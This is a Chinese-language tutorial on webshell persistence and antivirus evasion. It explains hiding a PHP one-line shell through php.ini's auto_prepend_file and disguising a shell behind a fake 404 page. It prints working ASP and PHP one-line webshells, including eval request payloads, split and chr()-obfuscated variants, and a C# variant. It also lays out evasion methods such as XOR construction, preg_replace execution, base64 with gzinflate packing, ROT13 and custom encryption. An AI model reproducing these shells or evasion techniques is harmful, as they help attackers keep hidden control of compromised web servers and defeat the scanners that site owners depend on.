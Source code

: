 配置文件隐藏一句话(PHP)
在拿到PHP的webshell之后，可以利用php.ini隐藏文件，编辑配置文件，其中一个项功能是将某一个文件的内容添加到任意界面的页眉页脚：auto_prepend_file =hehe.php 然后看include_path = “E:\PHPnow-1.5.6\htdocs;”这个配置信息表示加载页眉页脚的文集位置，path规则是”\path1;\path2″，表示将path1路径的文件夹下的页眉页脚文件添加到path中的文件中去，因为这里是一个‘.’表示根路径，这里就相当于添加到了主页上面去了，然后hehe.asp文件里面写上一句话，就可以通过php添加页眉的共能，将一句话写入网站首页。

404小马
404小马在访问的时候显示出来一个404页面不存在的页面，但是实际上木马代码已经执行，一般都是按5次shift可以将它调用出来。

关于Webshell的免杀

构造法绕过检测(PHP)

一般的检测程序会过滤这样”_POST”,”system”,”call_user_func_array”这样的字符，这个时候可以用构造法绕过一些检测程序，基本原理是，php每一个字符都对应了一个二进制的值，可以采用异或的方式，让马中的一个字符用两个字符异或后的值来代替。

正则表达式代替法(PHP)

php中有一个函数preg_replace()函数，这个函数可以实现正则表达式的替换工作。用替换绕过检测系统还需要php脚本语言里面的一个函数特性，函数在调用的时候，如果函数里面的参数的值里面含有命令，就会执行这个命令。

即时生成法(PHP)

在使用头文件包含的时候，所包含头文件php很容易被扫描器扫描到，这时候可以使用file_put_content创建一个文件，里面写如php的一句话马。在访问之前先生成马，但是这个函数比较敏感，很容易被杀。

回避法(asp)

因为有的asp服务器为了防止一句话马，会过滤<%,%>，可以使用：<scriptlanguage=VBScriptrunat=server>execute request("cmd")</Script>功能相同，就是换个形式。回避特定脚本语言：aspx一句话<script language="C#" runat="server">WebAdmin2Y.x.y aaaaa = new WebAdmin2Y.x.y("add6bb58e139be10");</script>这里使用C#语言写一句话马。

拆分法(asp)

将<%eval request(“x”)%>拆分为<%Y=request(“x”)%><%eval(Y)%>，虽然绕过的可能性很小，但是也是一种绕过手法，也许有的服务器，做了很多高大上的扫描方式，但是遗漏小的问题。

乱码变形(ANSI -> Unicode加密)
Default
<%eval request("#")%>变形为“┼攠數畣整爠煥敵瑳∨∣┩愾”
eval(eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("brute"))%>

上面一行代码是采用了ascii加密的方法，chr(114)代表的是ascii中的编号为114个那个字符，即r。上述代码转换后的代码为：
Default
<%eval (eval(request("brute"))%>

大马免杀

base 64 code 编码
大马的免杀可以通过将大马的代码进行压缩，压缩之后在进行base64的加密算法，然后在大马的末尾添加@eval(gzinflate(base64_decode($code)));就可以执行脚本了。其中，$code变量是用来存放base64的code码，执行的时候先gzinflate解压，在eval执行。其实这种不能真正意义上的免杀，因为base 64 code和eval还是回被列入特征码行列，在过扫描器的时候同样会被杀掉。

ROT13编码(PHP)
  str_rot13是php用来编码的一个函数。可以利用它来编码脚本代码来绕过特征码的检测。

其他编码
一般杀软和扫描器都会用特征码来判断是否有病毒，在对大马或者小马，一句话马做免杀处理的时候，一般都会用php或者asp脚本中加密类的函数来加密绕过扫描器（比如base64，rot13等），但是我觉得可以自己编写加密算法，然后使用自己编写的加密算法加密脚本代码就可以绕过一些特征码的。可以使用一些凯撒密码，移位加密等加密手段的思想，写一段加密算法，然后将脚本代码进行加密，然后base64，rot3这样的特征码就会消失，或者可以不那么麻烦，直接用自制的加密算法加密特征码，然后再使用的时候将其解密就行了。还可以使用DES，RSA这样的密钥加密算法也可以，一般的大马都会有一个密码的登陆框，可以将登陆脚本的密码跟解密密钥联动起来，输入正确的密码后才能够解析，一方面是为了逃过扫描器与杀软的查杀，另一方便，这个大马即使被别人拿到了，也无法解密，看到其中的源码。
